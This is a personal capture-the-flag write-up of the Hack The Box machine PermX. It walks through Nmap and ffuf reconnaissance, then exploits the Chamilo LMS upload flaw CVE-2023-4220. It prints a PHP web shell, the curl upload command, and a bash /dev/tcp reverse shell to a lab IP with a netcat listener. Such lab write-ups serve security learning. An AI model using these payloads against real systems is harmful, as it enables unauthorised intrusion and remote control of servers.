

# HTB machine PermX

https://app.hackthebox.com/machines/PermX

This is the first machine I pwned without any spoilers (from write-ups)

# Reconnaissance

## Nmap

Nmap results:
```
# Nmap 7.94SVN scan initiated Mon Jul  8 02:28:19 2024 as: nmap -sC -sV -vv -oA PermX 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up, received syn-ack (0.11s latency).
Scanned at 2024-07-08 02:28:20 BST for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
|   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
80/tcp open  http    syn-ack Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Mon Jul  8 02:28:30 2024 -- 1 IP address (1 host up) scanned in 10.95 seconds
```

Adding new host `permx.htb` to our `/etc/hosts` file

```shell
$ sudo echo "10.10.11.23 permx.htb" >> /etc/hosts
```


After navigating the pages, which gave us nothing to work with. This leaves us with sub-domain or directory discovery.

## FFUF

> I should make it a habit to document all the results

Directory fuzzing:
```
$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://permx.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 191ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 192ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 198ms]
img                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 179ms]
js                      [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 177ms]
lib                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 177ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 178ms]
:: Progress: [20469/20469] :: Job [1/1] :: 228 req/sec :: Duration: [0:01:41] :: Errors: 0 ::
```

Seems like they're all resources related to the index website, not much to work with.


Sub-domain fuzzing:
```
$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fl 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 203ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 190ms]
```

The filter is added to filter out the junk responses.

Adding the new sub-domain names to our `/etc/hosts` file.

`www` hostname gives us the same page `http://permx.htb` gives us.

`lms` gives us an webpage hosting an application called `chamilo`


> my god the machine resets so frequently because of how the root flag is obtained and how easily someone can fuck up root files.

## Burpsuite

You can configure your browser's proxy so the information goes through burpsuite. I do this because it makes it easier to track how the website reacts/behaves while I explore the functionalities.

By inspecting the header of the website, we can see it's using `chamilo 1` 



By searching online and there's known bug to this version, which allows us to gain RCE.

[(CVE-2023-4220) Chamilo LMS Unauthenticated Big Upload File Remote Code Execution](https://starlabs.sg/advisories/23/23-4220/)

# Foothold

With the proof of concept mentioned in the advisory, we can craft our payload.

> It's worth mentioning that you should make a **more unique file name** to avoid other player over-writing your payload file.

## Web-shell

```shell
$ echo '<?php system($_GET["cmd"]); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

This is a web-shell `<?php system($_GET["cmd"]); ?>` which can achieve RCE by visiting the website with additional tags like this `view-source: http://<website>/rce.php?cmd=id`

> I did a web-shell first and tried exploring the file with only that. And turns out the user `mtz`'s home directory is not readable to others.
>
> So I have to do a reverse shell to execute `linpeas` on it.

## Reverse shell

Open up `vim` or `nano` and paste your payload, because `echo` does not like this string.

```sh
$ cat shell.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/1234 0>&1'");?>
$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

```
The file has successfully been uploaded
```

Start netcat listener on another terminal
```shell
$ nc -lvnp 1234
```
And visit the php file we just uploaded

```
curl http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php
```

This will pop a shell on the terminal that's running netcat